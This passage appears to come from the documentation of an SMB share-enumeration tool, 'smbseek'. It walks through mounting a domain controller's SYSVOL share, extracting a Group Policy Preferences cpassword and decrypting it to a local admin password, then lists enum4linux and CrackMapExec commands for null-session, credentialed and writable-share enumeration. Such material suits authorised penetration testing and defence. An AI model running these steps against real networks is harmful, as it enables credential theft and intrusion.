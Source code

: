 ### Example 4: SYSVOL Group Policy Enumeration
**Scenario**: Authenticated domain user access to SYSVOL

```bash
# Discovery
$ ./smbseek.py -u jdoe -p UserPass123 -t
[MEDIUM] 192.168.1.10 (dc01.company.local), 4 shares
    ★ Interesting: SYSVOL, NETLOGON
    ✓ \\192.168.1.10\SYSVOL (Files: 89)

# Mount SYSVOL
$ mkdir /mnt/sysvol
$ mount -t cifs //192.168.1.10/SYSVOL /mnt/sysvol -o username=jdoe,password=UserPass123

# Search for GPP passwords (MS14-025)
$ find /mnt/sysvol -name "Groups.xml"
/mnt/sysvol/company.local/Policies/{...}/Machine/Preferences/Groups/Groups.xml

$ cat /mnt/sysvol/.../Groups.xml | grep cpassword
cpassword="j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"

# Decrypt GPP password
$ gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
LocalAdmin123!

# Impact: Local administrator password from Group Policy Preferences
```

## Integration with Other Tools

### enum4linux
```bash
# Basic enumeration
enum4linux -a 192.168.1.50

# Null session enumeration
enum4linux -U -S -G -P 192.168.1.50

# With credentials
enum4linux -u admin -p password -a 192.168.1.50
```

### CrackMapExec
```bash
# SMB enumeration
crackmapexec smb 192.168.1.0/24

# Check null sessions
crackmapexec smb 192.168.1.0/24 -u '' -p ''

# Share enumeration with credentials
crackmapexec smb 192.168.1.0/24 -u admin -p password --shares

# Find writable shares
crackmapexec smb 192.168.1.0/24 -u admin -p password --shares --filter-shares WRITE
```
